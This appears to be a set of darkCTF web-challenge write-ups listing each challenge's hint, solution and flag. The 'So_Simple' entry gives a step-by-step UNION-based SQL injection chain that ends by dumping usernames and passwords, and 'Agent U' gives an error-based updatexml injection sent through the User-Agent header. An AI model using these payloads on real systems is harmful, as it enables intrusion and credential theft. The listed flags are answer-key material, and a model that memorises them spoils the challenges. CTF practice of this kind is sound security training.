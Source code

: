 ```sql
```
> Don't know source is helpful or not !!

> Write-up : Change User Agent As 9e9

> category : web

> Flag : darkCTF{changeing_http_user_agent_is_easy}

```

# Simple SQL

```
> Try to find username and password

> Write-up : http://<ip>/index.php?id=5

> category : web

> Flag : darkCTF{it_is_very_easy_to_find}

```

# So_Simple

```
>  "Try Harder" may be You get flag manually

> Write-up : 1.) -1' union select 1,(select database()),'3
			 2.) -1' union select 1,(select group_concat(schema_name) from information_schema.schemata),'3
			 3.) -1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),'3
			 4.) -1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and          table_name='users'),'3
			 5.) -1' union select 1,(select group_concat(username,0x3a,password) from users),'3

> category : web

> Flag : darkCTF{uniqu3_ide4_t0_find_fl4g}

```

# Agent U

```
>  Agent U Steal Database from my company but don't know which one can u help me to find flag format darkCTF{databasename}

> Write-up : Change Default User-Agent To "' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1"

> category : web

> Flag : darkCTF{ag3nt_u_1s_v3ry_t3l3nt3d}

```
# Safe House

```
> Agent xer is hiding some information in secure safe, you have to get that information from him !!
